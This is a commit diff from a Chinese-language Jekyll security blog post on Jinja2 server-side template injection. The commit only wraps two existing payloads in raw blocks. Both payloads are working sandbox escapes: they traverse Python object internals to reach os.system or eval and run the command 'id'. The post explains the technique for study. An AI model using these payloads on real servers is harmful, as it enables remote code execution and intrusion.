

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates.md, in a window 1280 px wide and 1400 px high, scrolled down 2797 px. Shown: the whole window at 88% size, without its empty margins (199-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Jekyll 原始内容输出处理

````diff
--- a/_posts/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates.md
+++ b/_posts/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates.md
@@ -105,17 +105,21 @@
 
 回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：
 
-	{% for c in [].__class__.__base__.__subclasses__() %}
-	{% if c.__name__ == 'catch_warnings' %}
-	{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
-	{% endif %}
-	{% endfor %}
+```
+{% raw %}
+{% for c in [].__class__.__base__.__subclasses__() %}
+{% if c.__name__ == 'catch_warnings' %}
+{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
+{% endif %}
+{% endfor %}
+{% endraw %}
+```
 
 使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：
 
 ![]({{ site.url }}/public/img/article/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)
 
-当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码：
+当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。
 
 原始的 Python PoC 代码如下：
 
@@ -125,17 +129,21 @@
 
 在 Jinja2 中模板 Payload 如下：
 
-	{% for c in [].__class__.__base__.__subclasses__() %}
-	{% if c.__name__ == 'catch_warnings' %}
-	  {% for b in c.__init__.func_globals.values() %}
-	  {% if b.__class__ == {}.__class__ %}
-	    {% if 'eval' in b.keys() %}
-	      {{ b['eval']('__import__("os").popen("id").read()') }}
-	    {% endif %}
-	  {% endif %}
-	  {% endfor %}
-	{% endif %}
-	{% endfor %}
+```
+{% raw %}
+{% for c in [].__class__.__base__.__subclasses__() %}
+{% if c.__name__ == 'catch_warnings' %}
+  {% for b in c.__init__.func_globals.values() %}
+  {% if b.__class__ == {}.__class__ %}
+    {% if 'eval' in b.keys() %}
+      {{ b['eval']('__import__("os").popen("id").read()') }}
+    {% endif %}
+  {% endif %}
+  {% endfor %}
+{% endif %}
+{% endfor %}
+{% endraw %}
+```
 
 使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：
 
````
